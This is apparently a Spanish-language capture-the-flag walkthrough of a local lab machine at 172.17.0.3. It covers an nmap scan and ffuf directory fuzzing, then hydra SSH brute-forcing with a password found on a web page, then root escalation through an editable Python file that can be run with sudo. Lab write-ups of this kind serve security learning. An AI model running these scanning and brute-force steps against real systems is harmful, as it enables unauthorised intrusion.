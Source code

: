 Fecha: 07/09/2024

Empiezo usando nmap: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.3 -oN scan
```

Hago fuzzing para encontrar páginas. 

```bash
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.3/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing
```

![](Imágenes/Pasted%20image%2020240907214647.png)

En index.php encuentro un texto (JIFGHDS87GYDFIGD), que tiene pinta de contraseña:
![](Imágenes/Pasted%20image%2020240907214844.png)

Uso hydra para buscar el propietario de esa contraseña:
```bash
hydra -p JIFGHDS87GYDFIGD  -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt ssh://172.17.0.3 -t 64
```

Lo primero que hago es mirar qué permisos tengo: 
![](Imágenes/Pasted%20image%2020240907214602.png)

Puedo ejecutar un archivo con python como su, así que miro los permisos, los cambio, lo edito, y me convierto en root:
![](Imágenes/Pasted%20image%2020240907214528.png)